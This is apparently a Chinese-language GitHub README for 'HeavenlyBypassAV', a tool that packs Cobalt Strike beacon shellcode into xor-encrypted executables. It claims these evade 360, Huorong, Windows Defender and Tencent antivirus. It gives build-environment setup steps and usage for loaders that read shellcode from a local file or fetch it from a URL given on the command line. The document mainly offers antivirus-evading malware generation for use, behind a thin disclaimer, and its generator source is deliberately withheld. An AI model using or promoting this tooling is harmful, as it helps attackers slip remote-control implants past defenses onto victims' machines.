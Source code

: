 # 更新日志

## 3.0（重大更新）
2024.11.20更新，去除之前版本的VS2019配置，不需要配置。GCC编译，下载项目可直接生成免杀马，新增模块化选择生成操作。

本地分离马子使用：马子.exe code.bin  //code.bin可以改成任意格式

网络分离马子使用：马子.exe url链接 

示例：马子.exe http://www.baidu.com/1.txt

![QQ截图20240531145849](新建文件夹/20241120150642.png)

## 2.0
2024.06.20更新，解决生成马子免杀问题。


# HeavenlyBypassAV免杀工具

免责声明：仅用于技术交流，请勿用于非法用途。

Heavenly.exe是生成生成免杀加载器主进程，报毒正常，不含恶意代码。为保证免杀性，不公开源码，后续会更新

## 1.0
## 环境依赖设置

## 安装VS2019

双击运行下图程序安装VS2019。

![QQ截图20240531145849](新建文件夹/QQ截图20240531145849.png)

下载C++桌面开发即可。

![QQ截图20240531145849](新建文件夹/QQ截图20240531150105.png)

![QQ截图20240531145849](新建文件夹/QQ截图20240531150118.png)

下图让你启动证明安装完成。

![QQ截图20240531151602](新建文件夹/QQ截图20240531151602.png)

## 0x1运行Bat脚本一键设置环境变量

如不是默认安装路径修改Bat脚本标红选框为本机VS2019的安装目录即可。

```
默认安装路径：C:\Program Files (x86)\Microsoft Visual Studio\2019\Community
```

![QQ截图20240301095927](新建文件夹/1.png)

## 0x2手动设置环境变量

[点击下载 (aka.ms)](https://aka.ms/vs/17/release/vs_BuildTools.exe)

[Visual Studio 2019 配置 MSVC 环境变量，使用命令行编译。_vs2019 命令行编译-CSDN博客](https://blog.csdn.net/a517858177/article/details/114525735)

### Path系统变量

注：该环境变量的作用是为了找到MSVC编译工具，MSVC编译工具自行安装。

```
D:\VS2019\VC\Tools\MSVC\14.29.30133\bin
D:\VS2019\VC\Tools\MSVC\14.29.30133\bin\Hostx64\x64
```

![QQ截图20240301095927](新建文件夹/QQ截图20240301095927.png)

![微信截图_20240220160436](新建文件夹/微信截图_20240220160436.png)

### INCLUDE系统变量

注：路径：C:\Program Files (x86)\Windows Kits\10\Include\是安装Visual Studio 自带路径

```
D:\VS2019\VC\Tools\MSVC\14.29.30133\include
C:\Program Files (x86)\Windows Kits\10\Include\10.0.19041.0\shared
C:\Program Files (x86)\Windows Kits\10\Include\10.0.19041.0\ucrt
C:\Program Files (x86)\Windows Kits\10\Include\10.0.19041.0\um
C:\Program Files (x86)\Windows Kits\10\Include\10.0.19041.0\winrt
```

![QQ截图20240301104557](新建文件夹/QQ截图20240301104557.png)

![QQ截图20240301104719](新建文件夹/QQ截图20240301104719.png)

### LIB系统变量(X64)

```
D:\VS2019\VC\Tools\MSVC\14.29.30133\lib\x64
D:\VS2019\VC\Tools\MSVC\14.29.30133\atlmfc\lib\x64
D:\VS2019\VC\Auxiliary\VS\lib\x64
C:\Program Files (x86)\Windows Kits\10\lib\10.0.19041.0\ucrt\x64
C:\Program Files (x86)\Windows Kits\10\lib\10.0.19041.0\um\x64
C:\Program Files (x86)\Windows Kits\NETFXSDK\4.8\lib\um\x64
```

![微信截图_20240220160317](新建文件夹/微信截图_20240220160317.png)

# 1.0使用方式

只要把CS生成的beacon.bin文件放在和Heavenly.exe同一目录即可，然后可以双击运行exe，等待一会自动化生成。仅支持64位shellcode，默认采用xor加密，也可以使用命令行生成设置加密方法，暂支持xor和winxor两种加密方式，最后生成的文件是exe后缀。

**Tools目录**

tools目录为运行需要的依赖工具，其中favicon.ico和360zip_setup.exe可以替换，但替换后的文件名必须一样为favicon.ico和360zip_setup.exe。

```
Heavenly.exe 加密方法
```

![QQ截图20240301110037](新建文件夹/2.png)

## 免杀效果

**支持bypass 360、火绒、Windows Defender、腾讯电脑管家等，一键免杀上线CS**

![QQ截图20240301110037](新建文件夹/3.png)

![QQ截图20240301110134](新建文件夹/QQ截图20240301110134.png)

![微信截图_20240301112926](新建文件夹/微信截图_20240301112926.png)

![微信截图_20240301113311](新建文件夹/微信截图_20240301113311.png)

![微信截图_20240528214743](新建文件夹/微信截图_20240528214743.png)

![微信截图_20240301113311](新建文件夹/微信截图_20240301115227.png)

